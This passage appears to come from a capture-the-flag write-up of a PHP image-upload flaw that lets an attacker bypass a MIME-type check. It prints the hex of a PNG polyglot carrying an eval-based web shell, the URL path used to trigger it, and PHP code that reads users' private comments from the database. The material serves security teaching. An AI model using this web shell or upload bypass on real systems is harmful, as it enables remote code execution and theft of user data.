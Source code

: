 ```php
            exit();
        }
    } else {
        echo "Error uploading file: Not an Image";
    }
} else {
    echo "Error uploading file: " . $_FILES["image"]["error"];
    exit();
}
?>
```
Although lines 22 and 23 implement MIME type protection, this can be circumvented by creating a PHP file with a valid image MIME type. By inspecting network traffic, we detected this type of attack and utilized a valid image to create a `image.php` file. The PHP code execution on the remote server was achieved by naming the file with a `.php` extension.

The payload used, represented in hexadecimal, is as follows:

```
89 50 4e 47 0d 0a 1a 0a 00 00 00 0d 49 48 44 52 00 00 00 01 00 00 00 01 08 06 00 00 00 1f 15 c4 89 00 00 00 01 73 52 47 42 00 ae ce 1c e9 00 00 00 0d 49 44 41 54 18 57 63 88 d8 32 eb 3f 00 05 b4 02 a6 bc 42 03 17 00 00 00 00 49 45 4e 44 ae 42 60 82 0d 0a 3c 3f 70 68 70 20 76 61 72 5f 64 75 6d 70 28 65 76 61 6c 28 24 5f 47 45 54 5b 22 62 68 22 5d 29 29 3b 3f 3e
```

This essentially embeds a PHP payload inside an image, satisfying MIME type requirements. The PHP payload:

```php
<?php var_dump(eval($_GET["bh"]));?>
```

By uploading this payload through any user account and accessing it via `/uploads/<user_hash>/image.php?bh=`, we could execute PHP code to extract flags from private comments of users listed in `attack.json`.

An example PHP payload, which must be URL-encoded to avoid errors, is shown below:

```php
include ('../../config.php');

$stmt = $conn->prepare("SELECT comment_text FROM comments AS c 
            INNER JOIN users as u ON (u.id = c.user_id) 
            WHERE u.username IN (""" + usernames + """)");
$stmt->execute();
$result = $stmt->get_result();
$res = [];
while ($row = $result->fetch_assoc()) {
    $res[] = $row['comment_text'];
}
$stmt->close();

var_dump($res); 
```
